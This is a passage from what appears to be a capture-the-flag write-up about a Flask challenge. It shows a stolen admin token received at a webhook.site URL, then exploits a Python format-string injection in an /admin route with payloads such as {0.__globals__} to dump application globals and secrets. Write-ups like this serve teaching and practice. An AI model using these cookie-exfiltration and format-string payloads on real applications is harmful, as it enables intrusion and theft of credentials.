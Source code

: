 We then get a response from the server, `https://webhook.site/9609b1f4-xxxx-xxxx-xxxx-177da4f9d6e1/?c=X-Admin-Token=68fd3889bf98101b1639d81d8428955d`

Woo! Now we can do that on remote and access `/admin`!

Looking closer at the `app.py` there is a vulnerability in `/admin`:

```python
@app.route('/admin', methods=['GET'])
def admin():
    if request.cookies.get('X-Admin-Token') != X_Admin_Token:
        return 'Access denied', 403

    prompt = request.args.get('prompt')
    return render_template('admin.html', cmd=f"{prompt if prompt else 'prompt$/>'}{run_cmd()}".format(run_cmd))
```

The `return render_template(...)` line has a Python format string vulnerability, as the string is a format string (indicated by the `f` at the start) and is then run with a `.format()`, meaning we can injection our own variables and potentially exfiltrate sensitive information.

I start with some simple payloads to test it:
`{0.__globals__}`

This returns the globals of the current exection:

```
 {'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7ff98d7d2220>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, '__file__': '/app/app.py', '__cached__': None, 'Flask': <class 'flask.app.Flask'>, 'render_template': <function render_template at 0x7ff98c419040>, 'request': <Request 'http://localhost:5000/admin?prompt={0.__globals__}' [GET]>, 'Response': <class 'flask.wrappers.Response'>, 'redirect': <function redirect at 0x7ff98c5ac0d0>, 'url_for': <function url_for at 0x7ff98c618e50>, 'visit_report': <function visit_report at 0x7ff98c3dd670>, 'token_hex': <function token_hex at 0x7ff98c9ec940>, 'X_Admin_Token': '68fd3889bf98101b1639d81d8428955d', 'run_cmd': <function run_cmd at 0x7ff98d81d040>, 'sanitize_input': <function sanitize_input at 0x7ff98c0a9940>, 'app': <Flask 'app'>, 'admin': <function admin at 0x7ff98c1629d0>, 'index': <function index at 0x7ff98c162a60>, 'your_name': <function your_name at 0x7ff98c162c10>, 'report': <function report at 0x7ff98c162ca0>}None
```

We need to find a way to read the environment, generally this is stored in `os`. I start by looking in `Flask`:
`{0.__globals__[Flask].__dict__}`

This returns some information about the Flask app:

```
 {'__module__': 'flask.app', '__annotations__': {'request_class': 'type[Request]', 'response_class': 'type[Response]', 'session_interface': 'SessionInterface'}, '__doc__': "The flask object implements a WSGI application and acts as the central\n object. It is passed the name of the module or package of the\n application. Once it is created it will act as a central registry for\n the view functions, the URL rules, template configuration and much more.\n\n The name of the package is used to resolve resources from inside the\n package or the folder the module is contained in depending on if the\n package parameter ...: <function Flask.test_request_context at 0x7ff98c3dd4c0>, 'wsgi_app': <function Flask.wsgi_app at 0x7ff98c3dd550>, '__call__': <function Flask.__call__ at 0x7ff98c3dd5e0>}None
```
